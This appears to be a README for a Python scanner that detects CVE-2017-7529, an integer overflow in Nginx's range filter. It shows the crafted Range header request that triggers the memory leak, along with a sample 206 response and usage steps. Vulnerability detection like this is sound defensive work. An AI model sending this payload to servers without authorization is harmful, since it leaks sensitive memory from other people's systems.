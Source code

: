 # Cve_Finder_2017-7529
The tool is used to detect whether a server is vulnerable to Nginx Remote Integer Overflow CVE (2017-7529)

## Nginix Remote Integer Overflow

Nginx CVE-2017-7529 Remote Integer Overflow Vulnerability. Description: Nginx versions since 0.5. 6 up to and including 1.13. 2 are vulnerable to integer overflow vulnerability in nginx range filter module resulting into leak of potentially sensitive information triggered by specially crafted request.The attacker sends a specially crafted header Range in HTTP Request which causes the vulnerable Nginx Server to overflow memory bytes of server or leaks its content.

The response code for detecting Nginx Remote Overflow is 206 and Partial Content is recieved in HTTP status line. 

### Request

 GET /domain HTTP/1.1<br/>
 Accept-Encoding: identity<br/>
 Range: bytes=-17208,-9223372036854758792<b/r>
 Host: 127.0.0.1:8000<br/>
 Connection: close<br/>
 User-Agent: Python-urllib/2.7<br/>

### Response

 HTTP/1.1 206 Partial Content<br/>
 Server: nginx/1.13.1<br/>
 Date: Mon, 21 May 2020 06:51:52 GMT<br/>
 Content-Type: multipart/byteranges; boundary=00000000000000000002<br/>
 Connection: close<br/>
 Last-Modified: Mon, 17 Jul 2017 02:19:08 GMT<br/>
 ETag: "40c9-5547a060fdf00"<br/>
 X-Proxy-Cache: HIT<br/>
 --00000000000000000002<br/>
 Content-Type: text/html<br/>
 Content-Range: bytes -623-16584/16585<br/>

#### Requirements:

1) requests
2) optparse

##### Download Requirements:

pip install -r requriements.txt

###### Download:

1) git clone 
2) cd Cve_Finder_2017-7529
3) python nginx_remote_integer_overflow.py -d https://domain.com

